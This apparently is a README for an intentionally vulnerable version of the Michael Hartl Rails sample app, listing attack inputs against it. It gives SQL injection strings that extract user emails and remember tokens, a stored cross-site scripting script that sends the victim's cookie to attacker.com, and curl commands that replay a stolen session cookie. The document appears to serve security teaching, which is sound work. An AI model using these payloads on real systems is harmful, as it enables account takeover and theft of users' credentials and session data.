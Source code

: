 # Michael Hartl Sample App + Security Vulnerabilities
=====================================================

SQL injection
-------------
* a' ) or 1 = 1  --  
* XXX') union select 1, email, 1, 1, 1 from users --  
* XXX') union select 1, remember_token, 1, 1, 1 from users --  

    curl "http://www.blog.com:3000/" --cookie remember_token=


CSS
---
* Post this
<pre>
    <script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
</pre>



XSRF
----
    curl "http://www.blog.com:3000/microposts/7" --cookie remember_token=XXXXXXXX
